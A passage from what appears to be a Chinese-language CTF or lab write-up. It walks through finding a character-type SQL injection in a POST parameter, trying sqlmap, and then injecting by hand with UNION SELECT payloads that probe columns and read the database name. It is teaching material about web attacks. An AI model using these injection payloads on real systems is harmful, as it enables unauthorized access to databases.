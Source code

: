而且还是字符型SQL注入，一眼POST传参，sqlmap试一下，抓包看一下传参

[![](assets/1701678867-cd687ebaadc9bfbc89a6c94ae620619f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203258-42f4a29a-8dea-1.png)

测试了一下，好像不可以,手动打吧

```plain
-1' union select 1,2,3#
```

[![](assets/1701678867-c978194f02592177a7db1c06c7d60265.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203305-4771eb52-8dea-1.png)

爆一下数据库

```plain
-1' union select database(),2,3#
```

[![](assets/1701678867-568c6a12945831ae0a421e6e875a5e52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203312-4ba49e22-8dea-1.png)
